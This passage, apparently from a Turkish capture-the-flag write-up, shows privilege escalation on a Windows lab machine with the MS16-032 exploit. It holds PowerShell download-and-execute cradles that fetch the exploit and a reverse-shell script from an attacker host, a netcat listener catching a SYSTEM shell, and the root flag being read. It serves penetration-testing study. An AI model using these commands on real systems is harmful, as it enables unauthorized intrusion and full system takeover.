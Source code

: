 Ortaya çıkan shell 64 bittir:

```
PS C:\Users\kostas\Desktop> [Environment]::Is64BitProcess
True
```



### MS16-032

Yukarıdaki exploit-db bağlantısı, bu tür bir senaryo için işe yaramayacak çünkü yeni bir pencere açacak, komut çalıştırma yeteneği sağlamayacaktır. Neyse ki, Empire projesindeki kişiler, bu [script'in bir sürümünü](https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/privesc/Invoke-MS16032.ps1), komut seçeneği ekleyerek portladılar.

Bunun bir kopyasını indireceğim ve en sona, reverse shell'imi indirip çalıştıracak bir komutla çağrılmasını sağlamak için bir satır ekleyeceğim.

```
Invoke-MS16032 -Command "iex(New-Object Net.WebClient).DownloadString('http://10.10.14.10/rev.ps1')"
```

64 bit shell'den (ve hem rev.ps1'i sunan bir Python web sunucusu hem de shell'i almak için 443'ü dinleyen nc ile), exploit'i indirmek ve çalıştırmak için aynı PowerShell cradle'ı kullanacağım:

```
PS C:\Users\kostas\Desktop> IEX(New-Object Net.WebClient).downloadstring('http://10.10.14.10/Invoke-MS16032.ps1')
     __ __ ___ ___   ___     ___ ___ ___ 
    |  V  |  _|_  | |  _|___|   |_  |_  |
    |     |_  |_| |_| . |___| | |_  |  _|
    |_|_|_|___|_____|___|   |___|___|___|
                                        
                   [by b33f -> @FuzzySec]

[!] Holy handle leak Batman, we have a SYSTEM shell!!
```

Hemen Invoke-MS16032.ps1 için bir istek var. Son mesaj geldikten sonra, rev.ps1 için başka bir istek oluyor ve ardından nc'de bir shell alıyorum.

```
oxdf@parrot$ sudo nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.14.10] from (UNKNOWN) [10.10.10.8] 49244
whoami
nt authority\system
PS C:\Users\kostas\Desktop>
```

```
PS C:\users\administrator\desktop> type root.txt
51ed1b36************************
```

